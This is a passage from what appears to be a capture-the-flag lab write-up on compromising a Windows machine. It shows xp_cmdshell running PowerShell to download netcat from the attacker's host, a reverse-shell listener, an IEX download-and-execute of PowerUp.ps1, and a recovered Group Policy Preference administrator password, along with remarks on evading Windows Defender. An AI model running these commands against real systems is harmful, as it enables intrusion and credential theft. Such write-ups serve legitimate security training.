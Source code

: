 ```
--------------------------------------------------------------------------------

 Volume in drive C has no label.
 Volume Serial Number is FE98-F373
NULL
 Directory of c:\users
NULL
01/28/2019  11:41 PM    <DIR>          .
01/28/2019  11:41 PM    <DIR>          ..
01/28/2019  10:17 PM    <DIR>          Administrator
01/28/2019  11:42 PM    <DIR>          mssql-svc
01/28/2019  10:17 PM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)   6,438,649,856 bytes free
NULL
```

At first I tried running a Nishang reverse shell but Windows Defender caught it. Then I tried downloading netcat with certutil.exe but that also was caught. So I used powershell instead to download netcat and then spawn a shell:

```
SQL> xp_cmdshell "powershell -command Invoke-WebRequest -Uri http://10.10.14.23/nc.exe -OutFile c:\programdata\nc.exe"
```

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.125] 49713
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
querier\mssql-svc

C:\Windows\system32>type c:\users\mssql-svc\desktop\user.txt
type c:\users\mssql-svc\desktop\user.txt
c37b41b...
```

### Privesc

I used Powersploit's PowerUp module to do some recon on the box and found the administrator credentials stored in the Group Policy Preference (GPP) xml file. As explained on many other blogs, that file is AES encrypted but the key was leaked on MSDN a couple of years ago so PowerUp is able to decrypt it automatically.

```
C:\Windows\system32>powershell

PS C:\Windows\system32> IEX (New-Object Net.Webclient).downloadstring("http://10.10.14.23/PowerUp.ps1")
PS C:\Windows\system32> invoke-allchecks
[*] Checking for cached Group Policy Preferences .xml files....


Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
            C:\Windows\system32>powershell
```